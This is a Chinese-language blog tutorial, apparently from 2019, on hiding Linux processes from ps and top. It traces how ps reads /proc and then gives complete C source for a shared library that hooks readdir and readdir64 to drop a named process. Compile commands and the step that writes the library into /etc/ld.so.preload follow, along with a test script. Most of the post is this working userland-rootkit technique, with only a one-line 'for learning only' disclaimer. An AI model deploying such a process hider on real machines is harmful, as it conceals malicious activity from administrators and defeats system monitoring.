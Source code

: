 ```yaml
---
title: 通过 ld.so.preload 覆盖系统库，隐藏 Linux 进程
date: 2019-05-19 23:50:00
categories: Hacking
tags:
- Linux
- Hacking
---
```


> 本文旨在学习 linux 内核原理，纯粹用于技术探讨，请勿用于非法目的。

## `ps`指令是如何工作的？

我们可以使用 `sysdig` 跟踪 `ps` 指令的执行细节

```bash
$ sysdig proc.name = ps
...
2088196 23:47:45.419817127 7 ps (22956) > openat
2088197 23:47:45.419818054 7 ps (22956) < openat fd=6(<f>/proc/30245/stat) dirfd=-100(AT_FDCWD) name=/proc/30245/stat flags=1(O_RDONLY) mode=0
2088198 23:47:45.419818411 7 ps (22956) > read fd=6(<f>/proc/30245/stat) size=2048
2088199 23:47:45.419819843 7 ps (22956) < read res=182 data=30245 ((sd-pam)) S 30244 30244 30244 0 -1 1077936448 46 0 0 0 0 0 0 0 20 0 1 0 1
2088200 23:47:45.419820050 7 ps (22956) > close fd=6(<f>/proc/30245/stat)
2088201 23:47:45.419820178 7 ps (22956) < close res=0
2088202 23:47:45.419822308 7 ps (22956) > openat
2088203 23:47:45.419824137 7 ps (22956) < openat fd=6(<f>/proc/30245/status) dirfd=-100(AT_FDCWD) name=/proc/30245/status flags=1(O_RDONLY) mode=0
2088204 23:47:45.419824495 7 ps (22956) > read fd=6(<f>/proc/30245/status) size=2048
2088205 23:47:45.419829683 7 ps (22956) < read res=1329 data=Name:.(sd-pam).Umask:.0002.State:.S (sleeping).Tgid:.30245.Ngid:.0.Pid:.30245.PP
2088206 23:47:45.419829879 7 ps (22956) > close fd=6(<f>/proc/30245/status)
2088207 23:47:45.419830002 7 ps (22956) < close res=0
2088208 23:47:45.419831829 7 ps (22956) > getdents fd=5(<d>/proc)
2088209 23:47:45.419833030 7 ps (22956) < getdents res=0
2088210 23:47:45.419834153 7 ps (22956) > close fd=5(<d>/proc)
2088211 23:47:45.419834873 7 ps (22956) < close res=0
...
```

由此可以分析出 `ps` 的执行流程如下：
1. 通过 `openat` 函数打开目录 `/proc`。
2. 在该进程在打开的目录上调用 `getdents` 函数，得到 `/proc` 下的目录列表
3. 遍历每个子目录中的一组固定文件。从事件列表中可以看到，这些文件名为 `/proc/{PID}/status`，`/proc/PID/stat` 和 `/proc/PID/cmdline`，即为 `ps` 输出的信息。

> 进程本身不直接调用 `openat` 和 `getdents`， 因为这些是由C标准库（`libc`）抽象的系统调用。如果你曾经读过 `libc` 文档，`libc` 提供了两个不同的函数，`opendir` 和 `readdir`，它们负责自己调用系统调用，为开发人员提供了一个更简单的API。

## 3种隐藏进程的思路

1. 修改替换类似 `ps`、`lsof`、`top`、`htop` ... 等常用运维工具的二进制文件。
2. 覆盖 `libc` 中的 `readdir` 函数
3. 修改内核中的系统调用，hook 系统的 `getdents` 事件

下文采用第二种方法来实现

## 示例代码 (C)

### 新建 `processhider.c`

修改 `process_to_filter` 为你要隐藏的进程名

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

// !!! Replace to your Process Name
static const char* process_to_filter = "test.py";

static int get_dir_name(DIR* dirp, char* buf, size_t size)
{
    int fd = dirfd(dirp);
    if(fd == -1) {
        return 0;
    }

    char tmp[64];
    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);
    ssize_t ret = readlink(tmp, buf, size);
    if(ret == -1) {
        return 0;
    }

    buf[ret] = 0;
    return 1;
}

static int get_process_name(char* pid, char* buf)
{
    if(strspn(pid, "0123456789") != strlen(pid)) {
        return 0;
    }

    char tmp[256];
    snprintf(tmp, sizeof(tmp), "/proc/%s/stat", pid);

    FILE* f = fopen(tmp, "r");
    if(f == NULL) {
        return 0;
    }

    if(fgets(tmp, sizeof(tmp), f) == NULL) {
        fclose(f);
        return 0;
    }

    fclose(f);

    int unused;
    sscanf(tmp, "%d (%[^)]s", &unused, buf);
    return 1;
}

#define DECLARE_READDIR(dirent, readdir)                                \
static struct dirent* (*original_##readdir)(DIR*) = NULL;               \
                                                                        \
struct dirent* readdir(DIR *dirp)                                       \
{                                                                       \
    if(original_##readdir == NULL) {                                    \
        original_##readdir = dlsym(RTLD_NEXT, #readdir);                \
        if(original_##readdir == NULL)                                  \
        {                                                               \
            fprintf(stderr, "Error in dlsym: %s\n", dlerror());         \
        }                                                               \
    }                                                                   \
                                                                        \
    struct dirent* dir;                                                 \
                                                                        \
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
                strcmp(process_name, process_to_filter) == 0) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);
```

### 编译成动态链接库

```bash
$ gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ mv libprocesshider.so /usr/local/lib/
```

### 覆盖系统调用

`/etc/ld.so.preload` 这是个神奇的文件，写在这个文件里的库会比系统标准库优先调用。因此我们只要把刚才生成好的动态链接库添加到这个文件中就大功告成了

```bash
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

### 测试结果

新建一个测试文件 `test.py`

```python
#!/usr/bin/python

while True:
    print "Hello"
```

执行

```bash
$ chmod +x test.py
$ ./test.py
```

再开一个 `terminal` 查看 `ps` 或者 `top`，发现 `test.py` 已经不见了。
